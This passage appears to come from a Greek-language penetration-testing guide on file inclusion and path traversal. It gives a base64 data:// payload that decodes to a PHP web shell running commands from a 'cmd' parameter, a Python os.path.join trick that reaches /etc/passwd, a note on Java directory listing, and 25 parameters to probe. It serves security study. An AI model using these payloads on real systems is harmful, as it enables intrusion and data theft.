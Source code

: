 Ένα άλλο παράδειγμα **χωρίς τη χρήση του πρωτοκόλλου `php://`** θα ήταν:

{% code overflow="wrap" %}
```
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+txt
```
{% endcode %}

## Python Root στοιχείο

Στην python σε έναν κώδικα όπως αυτός:
```python
# file_name is controlled by a user
os.path.join(os.getcwd(), "public", file_name)
```
Αν ο χρήστης περάσει μια **απόλυτη διαδρομή** στο **`file_name`**, η **προηγούμενη διαδρομή απλώς αφαιρείται**:
```python
os.path.join(os.getcwd(), "public", "/etc/passwd")
'/etc/passwd'
```
Είναι η προορισμένη συμπεριφορά σύμφωνα με [την τεκμηρίωση](https://docs.python.org/3.10/library/os.path.html#os.path.join):

> Αν ένα συστατικό είναι απόλυτη διαδρομή, όλα τα προηγούμενα συστατικά απορρίπτονται και η ένωση συνεχίζεται από το συστατικό της απόλυτης διαδρομής.

## Java Λίστα Καταλόγων

Φαίνεται ότι αν έχετε Path Traversal σε Java και **ζητήσετε έναν κατάλογο** αντί για ένα αρχείο, **επιστρέφεται μια λίστα του καταλόγου**. Αυτό δεν θα συμβαίνει σε άλλες γλώσσες (όσο γνωρίζω).

## Κορυφαίοι 25 παράμετροι

Ακολουθεί λίστα με τους κορυφαίους 25 παράμετρους που θα μπορούσαν να είναι ευάλωτοι σε τοπικές ευπάθειες συμπερίληψης αρχείων (LFI) (από [σύνδεσμο](https://twitter.com/trbughunters/status/1279768631845494787)):
```
?cat={payload}
?dir={payload}
?action={payload}
?board={payload}
?date={payload}
?detail={payload}
?file={payload}
?download={payload}
?path={payload}
?folder={payload}
?prefix={payload}
?include={payload}
?page={payload}
?inc={payload}
?locate={payload}
?show={payload}
?doc={payload}
?site={payload}
?type={payload}
?view={payload}
?content={payload}
?document={payload}
?layout={payload}
?mod={payload}
?conf={payload}
```